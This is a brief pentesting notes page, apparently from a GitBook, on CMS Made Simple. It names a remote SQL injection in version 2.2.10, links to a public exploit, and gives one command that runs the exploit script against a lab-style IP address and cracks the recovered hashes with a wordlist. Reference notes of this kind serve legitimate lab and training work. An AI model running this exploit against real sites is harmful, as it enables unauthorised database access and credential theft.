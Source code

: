 ```yaml
---
description: Open source content management
icon: globe-pointer
---
```


# CMS Made Simple

{% embed url="https://www.cmsmadesimple.org/" %}

{% hint style="danger" %}
## 2.2.10 remote SQLi

* Download Exploit [here](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

{% code title="Execute Script" %}
```bash
./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```
{% endcode %}
{% endhint %}

